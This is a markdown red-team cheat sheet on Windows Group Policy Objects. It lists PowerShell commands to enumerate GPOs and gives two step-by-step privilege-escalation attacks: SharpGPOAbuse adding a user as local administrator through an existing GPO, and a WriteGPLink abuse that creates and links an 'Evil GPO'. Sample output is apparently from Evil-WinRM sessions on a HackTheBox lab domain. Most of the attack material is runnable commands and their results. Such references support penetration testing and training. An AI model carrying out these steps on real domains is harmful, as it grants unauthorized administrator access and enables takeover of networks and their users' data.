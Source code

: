 ```yaml
---
title: "GPOs"
date: 2025-3-16
tags: ["GPOs", "Windows", "Group Policy Objects", "WriteGPLink"]
---
```


### General

#### 1. Install GPMC \[Optional\]

```console
# Runas Administrator
Install-WindowsFeature GPMC
```

```console {class="sample-code"}
PS C:\Windows\system32> Install-WindowsFeature GPMC
Install-WindowsFeature GPMC

Success Restart Needed Exit Code      Feature Result                           
------- -------------- ---------      --------------                           
True    No             Success        {Group Policy Management}                
```

#### 2. List GPOs Name

```console
# List all GPOs
Get-GPO -All | Select-Object DisplayName
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All | Select-Object DisplayName

DisplayName
-----------
Windows Firewall GPO
Default Domain Policy
Default Active Directory Settings GPO
Default Domain Controllers Policy
Windows Update GPO
Windows Update Domain Policy
Software Installation GPO
Password Policy GPO
```

```console
# Check GPO by name
Get-GPO -Name '<GPO_NAME>'
```

```console
# Generate XML report
Get-GPOReport -Name '<GPO_NAME>' -ReportType XML
```

```console
# Generate pretty HTML report
Get-GPOReport -Name '<GPO_NAME>' -ReportType HTML -Path "C:\ProgramData\GPOReport.html"
```

### Abuse #1: Add local admin

#### 1. Add localAdmin

```console
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount '<USER>' --GPOName '<GPO_NAME>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> .\SharpGPOAbuse.exe --AddLocalADmin --UserAccount 'HHogan' --GPOName 'Default Domain Policy'
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

#### 2. Force reload

```console
gpupdate /force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.

*Evil-WinRM* PS C:\Users\HHogan\Documents> net user HHogan
User name                    HHogan
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/6/2023 11:59:34 AM
Password expires             Never
Password changeable          5/7/2023 11:59:34 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/10/2023 5:30:58 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers
The command completed successfully.
```

<small>*Ref: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)*</small>

### Abuse #2: WriteGPLink

#### 1. Create a New GPO

```console
New-GPO -Name "Evil GPO"
```

#### 2. Link to Target

```console
Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=<TARGET>,DC=<DOMAIN>,DC=<COM>"
```

#### 3. Add localAdmin

```console
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount '<USER>' --GPOName 'Evil GPO'
```

#### 4. Force reload

```console
gpupdate /force
```

#### 5. Check

```console
net user '<USER>'
```